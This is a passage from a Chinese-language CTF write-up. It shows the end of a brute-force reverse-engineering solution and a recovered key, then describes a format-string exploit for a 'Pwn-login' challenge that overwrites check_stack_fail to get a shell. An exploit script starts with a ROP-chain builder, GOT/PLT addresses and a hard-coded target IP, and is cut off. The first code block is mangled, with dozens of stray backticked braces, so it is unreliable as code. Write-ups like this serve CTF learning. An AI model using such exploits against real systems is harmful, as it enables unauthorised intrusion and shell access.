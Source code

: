 ```
                   pop eax
                   pop esi
            `}`
            if(!memcmp(output, str, 0x30))
            `{`
                   printf("%sn", input);
            `}`
			`}`
			`}`
			`}`
			`}`
            `}`
			`}`
			`}`
            `}`
			`}`
			`}`
            `}`
			`}`
			`}`
            `}`
			`}`
`}`
```

等到爆出来的时候，比赛已经结束了。爆出来为:

%6K#7E&amp;5C*9G!8I$

当然这还不是最终结果，还要用这个作为密钥，去AES解密加密表，才能得到flag。。。

**<br>**

**Pwn-login**

sprintf里面的格式化字符串的内容可以被自身的格式化给覆盖掉，把%s:%s覆盖掉，覆盖成%hhn，然后格式化来改写check_stack_fail的最后一字节，拿shell的时候 ，不能用system拿，不能用system拿，环境变量被栈覆盖掉了：

```
from zio import *
   
 target = ("58.213.63.30",4002)
   
   def get_io(target):
    r_m = COLORED(RAW, "green")
    w_m = COLORED(RAW, "blue")
    io = zio(target, timeout = 9999, print_read = r_m, print_write = w_m)
    return io
   
   def gen_rop_data(func_addr, args, pie_text_base = 0):
     p_ret = [0x0804844e, 0x08048465, 0x0804891a, 0x08048919, 0x08048918]
     rop_data  = ''
     rop_data += l32(func_addr)
     if len(args) &gt; 0:
         rop_data += l32(p_ret[len(args)] + pie_text_base)
     for arg in args:
         rop_data += l32(arg)
     return rop_data
   
   def pwn(io):
   
    puts_got                   = 0x0804a01c          
    offset_puts                = 0x656a0             
    puts_plt                   = 0x080484c0
   
    read_plt                   = 0x08048480
```